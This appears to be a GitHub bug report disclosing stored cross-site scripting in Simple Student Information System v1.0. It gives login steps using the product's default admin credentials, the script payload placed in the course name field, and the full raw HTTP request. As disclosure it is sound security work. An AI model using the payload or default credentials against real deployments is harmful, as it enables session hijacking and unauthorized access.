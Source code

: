 # Simple Student Information System v1.0 has stored cross-site scripting

BUG_Author:wangshiyou

Website Source Code Address:https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html

Vulnerability url: /sis/classes/Master.php?f=save_course

POST form-data parameter name exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/sis/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Course List" and Click on "+ Add New Course".

3.Put Payload into the Course parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/sssddc11/bug_report/blob/master/xss1.png)

4.Click on Save

Transmission packet

```
POST /sis/classes/Master.php?f=save_course HTTP/1.1
Host: localhost
Content-Length: 557
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvHu24DiYwx7RUiq4
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/sis/admin/?page=courses
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=uliaml90ktvaestc2mev4vp09m
Connection: close

------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="department_id"

2
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryvHu24DiYwx7RUiq4--
```

5.Payload will trigger when a user visits on http://localhost/sis/admin/?page=courses

![image](https://github.com/sssddc11/bug_report/blob/master/xss1.png)
